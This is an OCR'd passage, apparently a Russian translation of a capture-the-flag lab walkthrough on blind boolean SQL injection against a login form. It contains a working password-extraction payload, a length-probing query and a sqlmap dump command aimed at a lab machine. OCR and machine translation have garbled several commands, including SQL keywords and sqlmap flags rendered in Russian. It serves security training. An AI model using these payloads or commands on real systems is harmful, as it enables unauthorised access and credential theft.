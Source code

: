 SUBSTR (( SELECT  password  FROM  users  LIMIT  0 , 1 ), 1 , 1 )  =  CAST ( X ' 54 '  as  Text )
Перед использованием созданного нами запроса нам нужно будет привести его в соответствие с исходным запросом. Наш 
запрос будет помещен в поле имени пользователя. Мы можем закрыть параметр имени пользователя, добавив одинарную 
кавычку ('), а затем добавить оператор AND, чтобы добавить к нему наше условие. Затем добавьте два тире (--), чтобы 
закомментировать проверку пароля в конце запроса. После этого наш вредоносный запрос будет выглядеть следующим образом:   

admin '  AND  SUBSTR (( SELECT  password  FROM  users  LIMIT  0 , 1 ), 1 , 1 )  =  CAST ( X ' 54 '  as  Text ) -- -
При введении этого значения в поле имени пользователя конечный запрос, выполняемый базой данных, будет следующим:

`SELECT  id ,  username  FROM  users  WHERE  username  =  ' admin '  AND  SUBSTR (( SELECT  password  FROM  users  
LIMIT  0 , 1 ), 1 , 1 )  =  CAST ( X ' 54 '  as  Text )` 
Если приложение отвечает перенаправлением 302, то мы нашли первый символ пароля. Чтобы получить весь пароль, 
злоумышленник должен ввести несколько тестов для каждого символа в пароле. Тестирование каждого отдельного символа 
утомительно и проще всего это сделать с помощью скрипта. Одним из простых решений является цикл по каждому 
возможному символу ASCII и сравнение его с символом базы данных. Упомянутый метод генерирует большой трафик к цели и 
не является самым эффективным методом. Пример скрипта предоставляется внутри машины и может быть просмотрен и 
загружен по адресу http://MACHINE_IP:5000/view/challenge3/challenge3-exploit.py ; обратите внимание, что необходимо 
будет изменить длину пароля с помощью переменной password_len. Длину пароля можно узнать, запросив базу данных. 
Например, в запросе ниже мы спрашиваем базу данных, равна ли длина пароля 37:       

admin '  И  длина (( ВЫБЕРИТЕ  пароль  из  пользователей, где имя пользователя= ' admin ' ))== 37 -- -
Кроме того, скрипт требует ненужного количества запросов. Дополнительной проблемой может стать создание более 
эффективного инструмента для извлечения пароля. 

Альтернативный способ решения этой проблемы — использование инструмента, такого как sqlmap, который является 
инструментом с открытым исходным кодом, автоматизирующим процесс обнаружения и эксплуатации уязвимостей SQL- 
инъекций. Для эксплуатации уязвимости с помощью sqlmap можно использовать следующую команду:  

$  sqlmap  -u http :// MACHINE_IP : 5000 / challenge3 / login  -- data = " имя пользователя = admin & пароль = admin " 
-- уровень = 5  -- риск = 3  -- СУБД = sqlite  -- метод = b  -- дамп

### Задача
Воспользуйтесь уязвимой формой входа и получите флаг.

### Ответить на вопросы ниже
```commandline
# task 6
http://10.10.255.151:5000/challenge3/login?next=http%3A%2F%2F10.10.255.151%3A5000%2Fchallenge3%2Fhome
sqlmap -u http://10.10.255.151:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump
y
y
y
y
0
```